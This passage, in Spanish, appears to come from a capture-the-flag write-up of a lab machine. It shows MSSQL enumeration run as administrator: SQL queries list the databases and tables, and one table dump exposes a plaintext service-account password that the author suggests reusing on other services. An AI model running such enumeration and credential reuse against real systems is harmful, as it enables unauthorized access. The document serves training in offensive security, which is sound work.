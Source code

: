 <h2 id="MSSQL">Enumeración de Servicio MSSQL y Obteniendo Shell Interactiva</h2>

Estamos dentro del **servicio MSSQL** como administrador, vamos a empezar a enumerar lo que esté almacenado aquí.

Empecemos por las bases de datos, veamos si existen más:
```sql
SQL (SCRM\administrator  dbo@master)> SELECT name FROM master.sys.databases;
name         
----------   
master       

tempdb       

model        

msdb         

ScrambleHR
```

Bien, veamos las tablas de la base de datos **ScrambleHR**:
```sql
SQL (SCRM\administrator  dbo@master)> select table_name from ScrambleHR.information_schema.tables;
table_name   
----------   
Employees    

UserImport   

Timesheets
```

Hay solo 3 tablas, vamos a usar esa base de datos y veamos el contenido de estas:
```sql
SQL (SCRM\administrator  dbo@master)> use ScrambleHR;
ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.

SQL (SCRM\administrator  dbo@ScrambleHR)> select * from Employees;
EmployeeID   FirstName   Surname   Title   Manager   Role   
----------   ---------   -------   -----   -------   ----   

SQL (SCRM\administrator  dbo@ScrambleHR)> select * from UserImport;
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups   
--------   -----------------   ----------   ---------------   -------------   
MiscSvc    ScrambledEggs9900   scrm.local                90               0   

SQL (SCRM\administrator  dbo@ScrambleHR)> select * from Timesheets;
EmployeeID   TimeStart   TimeEnd   
----------   ---------   -------
```

Encontramos la contraseña de un usuario llamado **MiscSvc** y está en texto claro, parece que menciona que es el usuario y contraseña del **servicio LDAP**, pero seguramente sirve para otros servicios.
